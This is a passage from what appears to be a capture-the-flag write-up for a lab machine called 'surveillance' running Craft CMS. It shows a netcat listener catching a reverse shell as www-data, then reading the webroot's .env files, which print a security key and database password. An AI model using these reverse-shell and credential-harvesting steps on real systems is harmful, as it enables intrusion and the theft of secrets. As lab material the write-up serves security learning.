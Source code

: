 ```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80
        inet 10.10.14.6  netmask 255.255.254.0  destination 10.10.14.6
        inet6 fe80::c3ec:7179:cefe:9112  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1004  prefixlen 64  scopeid 0x0<global>
listening on [any] 80 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.245] 37274
www-data@surveillance:~/html/craft/web$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Obtained a shell with www-data user. Within the webapp webroot, multiple ".env" files are identified.

```shell
$ ls -la /var/www/html/craft/
total 320
drwxr-xr-x  8 www-data www-data   4096 Oct 21 18:32 .
drwxr-xr-x  3 root     root       4096 Oct 21 17:54 ..
-rw-r--r--  1 www-data www-data    836 Oct 21 18:32 .env
-rw-r--r--  1 www-data www-data    678 May 23  2023 .env.example.dev
-rw-r--r--  1 www-data www-data    688 May 23  2023 .env.example.production
-rw-r--r--  1 www-data www-data    684 May 23  2023 .env.example.staging
-rw-r--r--  1 www-data www-data     31 May 23  2023 .gitignore
-rw-r--r--  1 www-data www-data    529 May 23  2023 bootstrap.php
-rw-r--r--  1 www-data www-data    622 Jun 13  2023 composer.json
-rw-r--r--  1 www-data www-data 261350 Jun 13  2023 composer.lock
drwxr-xr-x  4 www-data www-data   4096 Oct 11 17:57 config
-rwxr-xr-x  1 www-data www-data    309 May 23  2023 craft
drwxrwxr-x  2 www-data www-data   4096 Oct 21 18:26 migrations
drwxr-xr-x  6 www-data www-data   4096 Oct 11 20:12 storage
drwxr-xr-x  3 www-data www-data   4096 Oct 17 15:24 templates
drwxr-xr-x 42 www-data www-data   4096 Jun 13  2023 vendor
drwxr-xr-x  8 www-data www-data   4096 Feb  6 13:30 web
```

```shell
$ cat /var/www/html/craft/.env* | grep -v -e '#'

CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

CRAFT_ENVIRONMENT=production

CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/

CRAFT_APP_ID=

CRAFT_ENVIRONMENT=dev

CRAFT_SECURITY_KEY=
```